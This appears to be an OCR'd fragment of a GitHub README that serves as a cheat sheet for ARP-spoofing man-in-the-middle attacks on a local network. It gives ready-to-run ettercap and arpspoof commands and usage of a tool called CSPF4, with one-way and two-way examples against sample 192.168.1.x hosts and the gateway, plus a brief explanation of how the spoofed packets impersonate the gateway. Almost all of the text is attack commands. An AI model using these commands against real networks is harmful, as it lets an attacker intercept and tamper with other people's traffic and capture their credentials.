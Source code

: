 * ettercap -i wlan0 -M Arp:Remote -TQ "/192.168.1.2;192.168.1.3;192.168.1.10//" "/192.168.1.1//"


--------------------------------------------------

# 2)- Useing CSPF4 

* after joining cli session  useing : ./cspf4 <interface> you can run many commands

* ./cspf4 wlan0

# and then run inside it,s session : 

# 1) - for arp one way

* arpspf <target1> <target2>

# Example :
	arpspf 192.168.1.1 192.168.1.125

# 2) - for 2 way arp "remote"

* 	arpspf <target1> <target2> all

# Example:
*	arpspf 192.168.1.1 192.168.1.125 all

---------------------------------------------------

# normal mitm with arpspoof binary 

* arpspoof -i <interface> -c -t <target ip> -r <host>

# we specify the target which we send a spoof packet to him and told him we are the host by sending our mac as hdsrc and the host ip as ipsrc
 

* arpspoof -i wlan0  -t 192.168.1.2 -r 192.168.1.1 &
* arpspoof -i wlan0  -t 192.168.1.1 -r 192.168.1.2 &

# we arpspoof with the2way or as they calling it : remotely , 
# thats mean arpspoof targets and tell everyone of them we are the another one
